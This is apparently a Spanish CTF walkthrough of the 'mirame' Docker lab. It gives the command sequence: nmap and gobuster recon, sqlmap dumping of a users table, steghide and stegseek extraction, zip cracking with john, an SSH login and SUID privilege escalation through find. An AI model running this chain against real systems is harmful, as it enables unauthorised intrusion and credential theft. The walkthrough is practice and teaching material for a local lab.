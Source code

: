 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh mirame.tar
```

![[Pasted image 20250216181121.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250216181151.png]]

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![[Pasted image 20250216183046.png]]

Nos metemos en la web:

![[Pasted image 20250216181233.png]]

Hacemos **SQL Injection**:

```Bash
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
```

![[Pasted image 20250216184832.png]]

![[Pasted image 20250216184849.png]]

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D users --tables --batch
```

![[Pasted image 20250216184937.png]]

![[Pasted image 20250216184948.png]]

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D users -T usuarios --columns --batch
```

![[Pasted image 20250216185055.png]]

![[Pasted image 20250216185115.png]]

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D users -T usuarios -C id,password,username --dump --batch
```

![[Pasted image 20250216185341.png]]

![[Pasted image 20250216185404.png]]

Nos muestra un directorio oculto:

![[Pasted image 20250216203818.png]]

![[Pasted image 20250216203830.png]]

Descargamos la imagen y vemos que tiene oculto:

```Bash
curl -O http://172.17.0.2/directoriotravieso/miramebien.jpg
```

![[Pasted image 20250216204010.png]]

```Bash
steghide extract -sf miramebien.jpg
```

![[Pasted image 20250216204736.png]]

Crackeamos salvoconducto:

```Bash
stegseek miramebien.jpg
```

![[Pasted image 20250216204828.png]]

```Bash
steghide extract -sf miramebien.jpg
```

![[Pasted image 20250216204909.png]]

```Bash
unzip ocultito.zip
```

![[Pasted image 20250216205221.png]]

Crakeamos zip:

```Bash
zip2john ocultito.zip > hash
```

![[Pasted image 20250216205318.png]]

```Bash
cat hash
```

![[Pasted image 20250216205434.png]]

```Bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![[Pasted image 20250216205527.png]]

```Bash
unzip ocultito.zip
```

![[Pasted image 20250216205552.png]]

```Bash
cat secret.txt
```

![[Pasted image 20250216205623.png]]

Nos conectamos con **SSH**:

```Bash
ssh carlos@172.17.0.2
```

![[Pasted image 20250216205646.png]]

Elevamos privilegios:

```Bash
find / -perm -4000 2>/dev/null
```

![[Pasted image 20250216205730.png]]

```Bash
find . -exec /bin/bash -p \; -quit
```

![[Pasted image 20250216205843.png]]

```Bash
whoami
```

![[Pasted image 20250216205859.png]]